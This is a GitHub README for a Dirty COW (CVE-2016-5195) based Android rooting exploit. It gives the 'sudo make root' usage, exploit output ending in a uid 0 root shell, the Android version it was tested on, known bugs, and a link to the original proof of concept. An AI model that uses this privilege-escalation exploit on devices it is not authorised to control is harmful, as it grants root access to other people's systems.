 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
Tested On Android Kitkat 4.4  
##Bugs / Problems  
1)  
  System Will Hang If You Exec a command on spawned shell  
  Temp Fix: Exit Back to Terminal and type  
  1) adb shell  
  2) run-as  
  Going adb shell run-as will produce the hang  
2) 
  Android 5 (Samsung Galaxy S4)  
  setresgid/setresuid failed
  
3)
  Incompatible with devices with system partitions made read-only by the _hardware_, such as the DigiLand DL718M and other supercheap devices.
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
